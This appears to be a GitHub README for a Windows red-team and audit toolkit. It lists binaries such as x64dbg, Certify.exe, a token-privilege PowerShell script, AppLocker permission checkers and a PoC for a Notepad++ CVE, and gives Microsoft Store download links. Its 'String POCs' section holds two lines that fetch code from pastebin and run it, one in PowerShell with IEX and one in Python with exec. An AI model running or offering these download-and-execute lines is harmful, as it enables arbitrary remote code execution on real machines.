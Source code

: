 
### Copies of bins for download 

The Python Embeddable 3.11.0 for the .tar
https://www.python.org/downloads/windows/


##### DD Deeplinks for the MS store rollback
ESRB [E] Everyone ratings will work in most cases - however ESRB Teen [T] and other ratings may be restricted.  
Most social media type apps will be Teen [T]  

[E] [x64dbg] - https://get.microsoft.com/installer/download/9PGJGD53TN86  
[E] [Python3.11] - https://get.microsoft.com/installer/download/9NRWMJP3717K  
[E] [Microsoft PowerToys] - https://get.microsoft.com/installer/download/XP89DCGQ3K6VLD  
[3] [PowerShell 7] - https://get.microsoft.com/installer/download/9MZ1SNWT0N5D  
[3] [PowerShell Preview] - https://get.microsoft.com/installer/download/9P95ZZKTNRN4  
[T] [TikTok - PSPF restricted] - https://get.microsoft.com/installer/download/9NH2GPH4JZS4  


#### Details
- The `1package.tar` and `2package.tar` are the Prowler `.whl` files for Python portable install
- The `Certify.exe` is what it says
- The `.Appx` are for the MS Store and `1b765123-a5ce-4bd0-9c0f-9b0b8cc76095` is the store
- The `SoAudit.exe` is the auditing tool, Alpha release only so far
- The `TokenPriv.ps1` is for Admin use to enable different privs in the session as needed
- The `gpg-debs.tar` is the set of deb files for installing gpg on minimal Kali, required when apt is not keyed yet
- `odapplockprivs.exe` is for default AppLocker paths checking for any wild files with privs for Everyone user
- `fulloddapplockerprivs.exe` is a full user group check in AppLocker paths for privs - users are; Everyone, Users, Authenticated Users and Guests
- Processhacker is the official binary
- python is the official embed 3.11.0 release
- `regsvr32.c` and the related `.exe` is a source code for poc testing the NoptePad++ CVE from 2025
- `scriptfile2.js` is a write test, check comments in the file
- `whl.ps1` is a helper file to unpack `.whl` files to a location - specifically the .tar files `1package.tar` and `2package.tar` but can be for any large `.whl` sets obv. 


### String POCs

IEX Calc POC
```iex ((Invoke-WebRequest 'https://pastebin.com/raw/Gnb4K1Qq').Content)```

Subprocess Calc POC
```import urllib.request
url = "https://pastebin.com/raw/kFzy7JT5"
response = urllib.request.urlopen(url)
code = response.read().decode()
exec(code)
